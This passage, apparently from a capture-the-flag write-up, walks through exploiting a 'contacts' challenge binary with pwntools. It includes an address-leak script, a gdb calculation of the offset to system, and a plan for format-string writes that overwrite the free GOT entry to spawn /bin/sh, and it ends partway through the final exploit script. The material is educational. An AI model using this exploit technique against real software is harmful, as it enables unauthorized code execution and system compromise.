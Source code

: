 ```
leak2 = leak2.replace("Phone #:", "")[4:]
leak2 = hex(u64(leak2[39:]))
leak2 = leak2[3:]
leak2 = leak2[:-6]
leak2 = int("0x" + leak2, 16)
print hex(leak2)

#Print the needed information
print "leak0: " + hex(leak0)
print "leak1: " + hex(leak1)
print "leak2: " + hex(leak2)

#Drop to an interactive shell and hand the process over to gdb
gdb.attach(target)
target.interactive()
```

Now let's fnd the offset from system using the gdb session the python code spawns:

output of the python code:
```
leak0: 0x9d23010
leak1: 0x9d23058
leak2: 0xf759a610
```

gdb:
```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7579060 <system>
```
calculate the difference:
```
>>> 0xf7579060 - 0xf759a610
-136624
```

So to get the system address, we should just have to subtract 136624 from the leaked address. Now that we have that, we have everything we need for the final exploit.

So how the exploit will work, is we will create five users. After that we will leak the heap addresses we need. The first user will overflow into the second so we can leak the scanf address. The third user will overflow into the fourth. We will execute the write with two sperate format strings, writing to both `0x804b014` and `0x804b016`, so we don't have to write so many bytes at once. After that change the description of the second and fourth users to `"%" + bytes + "x%1$hn"` where bytes is the number of bytes you need to write for the two byte segment. After that change the description of the fifth user to `/bin/sh`. Then we will display the contacts  write to the `free` got table entry with two writes, the first and last two byte segments.  After that we will be able to either delete or edit the description for the second user and we will have a shell. For the last two steps I choose to do them manually instead of automating them with the script:

exploit:
```
#Import pwntools
from pwn import *

#Establish the process
target = process("./contacts_54f3188f64e548565bc1b87d7aa07427")

#Create the first contact
target.recvuntil(">>>")
target.sendline("1")
target.sendline("guy0")
target.sendline("0123456789")
target.sendline("50")
target.sendline("%1$x")
print target.recvuntil(">>>")
```